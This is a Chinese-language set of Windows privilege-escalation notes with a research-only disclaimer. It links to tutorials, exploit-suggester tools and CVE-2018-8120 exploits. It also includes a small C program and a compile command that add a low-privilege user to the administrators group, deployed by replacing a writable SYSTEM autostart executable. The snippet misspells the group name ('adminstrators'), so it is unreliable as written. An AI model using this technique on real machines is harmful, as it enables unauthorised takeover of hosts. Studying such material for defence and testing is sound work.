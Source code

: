 # 提权笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# win

**文章教程**
- https://www.fuzzysecurity.com/tutorials/16.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

**提权辅助工具**
- [LOLBAS](https://lolbas-project.github.io/)
- [windows 本地提权对照表](http://www.7kb.org/138.html)
- [提权辅助网页](https://bugs.hacking8.com/tiquan/)
- [Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)
- [BulletinSearch-微软官网提供的漏洞 excel 列表](http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx)
- [GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) - 此工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较,以便检测目标上可能缺少的修补程序.
- [bitsadmin/wesng](https://github.com/bitsadmin/wesng) - Windows Exploit Suggester
- [tengzhangchao/microsoftSpider](https://github.com/tengzhangchao/microsoftSpider) - 爬取微软漏洞信息,MS 对应的每个版本操作系统 KB 号以及补丁下载地址.
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

**添加开机启动项**

useradd.c
```C
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
```
将 useradd.exe 传到目标机上,用 useradd.exe 去替换 everyone 完成控制且以系统权限开机自启的 exe,即可将用户 lowpriv 提升为管理员权限

查看一个程序的各个用户权限: `icacls xxx.exe`

**CVE-2018-8120**
- POC | Payload | exp
    - [unamer/CVE-2018-8120: CVE-2018-8120 Windows LPE exploit](https://github.com/unamer/CVE-2018-8120)
    - [alpha1ab/CVE-2018-8120: CVE-2018-8120 Exploit for Win2003 Win2008 WinXP Win7](https://github.com/alpha1ab/CVE-2018-8120)
